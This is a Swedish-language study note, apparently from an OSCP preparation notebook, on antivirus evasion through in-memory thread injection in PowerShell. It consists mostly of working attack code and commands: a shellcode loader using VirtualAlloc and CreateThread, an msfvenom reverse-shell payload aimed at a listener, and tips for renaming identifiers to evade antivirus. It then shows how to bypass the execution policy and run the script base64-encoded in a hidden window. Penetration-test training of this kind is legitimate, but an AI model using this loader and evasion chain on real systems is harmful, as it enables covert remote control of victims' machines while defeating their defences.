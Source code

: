```yaml
---
{"dg-publish":true,"permalink":"/OSCP/g. Antivirus Evasion/2. Manual Thread Injection/"}
---
```


### In-memory Thread Injection Using Powershell:

1. Skapa ps1-skript med följande kod:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
2. Generera payload med msfvenom enligt följande:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```
3. Byt ut variabelnamn på t.ex. $winFunc och $sc till mer generiska namn för att ungå AVs. Byt även ut namnet på class-namnet från "Win32" till något annat.
4. Sätt upp lyssnare och exekvera skriptet på valfritt sätt genom powershell (x86).
5. Om det inte tillåts pga execution policies ändra genom:
```powershell
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

------------

### One-liner genom encodedCommand:

Använd https://github.com/darkoperator/powershell_scripts/tree/master och generera en base-64 sträng med hela skriptet genom:
```bash
python3 ps_encoder.py -s malware.ps1
```
Kör sedan commandot i powershell genom:
```powershell
powershell.exe -encodedCommand ...ByAHQALQBzAGwAZQBlAHAAIAA2ADAAIAB9ADsACgA=
```
Extra secrecy:
```powershell
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -encodedCommand
```
